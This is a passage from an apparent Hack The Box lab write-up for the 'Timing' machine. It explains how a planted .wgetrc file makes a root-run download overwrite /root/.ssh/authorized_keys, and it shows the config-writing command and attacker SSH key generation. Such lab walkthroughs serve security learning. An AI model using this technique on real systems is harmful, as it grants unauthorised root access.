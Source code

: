 There's another HTB box called Kotarak that has a similar path, [this](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html) walk through helped me here. The key part to know is that wget looks for a startup file when it's run. From the docs [here](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Location.html) we can see how that works:

```text
When initializing, Wget will look for a global startup file, /usr/local/etc/wgetrc
by default (or some prefix other than /usr/local, if Wget was not installed there)
and read commands from there, if it exists.

Then it will look for the user’s file. If the environmental variable WGETRC is set,
Wget will try to load that file. Failing that, no further attempts will be made.

If WGETRC is not set, Wget will try to load $HOME/.wgetrc.
```

On this box we find there is no global file so we can exploit this by creating our own .wgetrc file in aaron's /home folder. Looking at the available commands [here](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Commands.html) we see that there is an option to set the name and path of the retrieved file. We can run the java app as root so we have access to /root as a writeable location. Let's put our Kali public SSH key in there so we can log in as root without a password.

First create the .wgetrc config file in /home/aaron:

```text
aaron@timing:~$ cat <<_EOF_>.wgetrc
> output_document = /root/.ssh/authorized_keys
> _EOF_
```

Over on Kali create our SSH keys if needed:

```sh
┌──(root💀kali)-[~]
└─# ssh-keygen          
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:B/SsKx8Z8AU/c40jKybaq8OpWpTVdl2Yz0e/ktMxXxY root@kali
The key's randomart image is:
+---[RSA 3072]----+
|        o  o.    |
|     . . *o. o.E |
|    . + o Xo+....|
|   o . + + *o..o+|
|  o   . S o  .o.*|
| .   o o *   + o.|
|  ....o +     o  |
| .  +  + .       |
|.....o. .        |
+----[SHA256]-----+
```
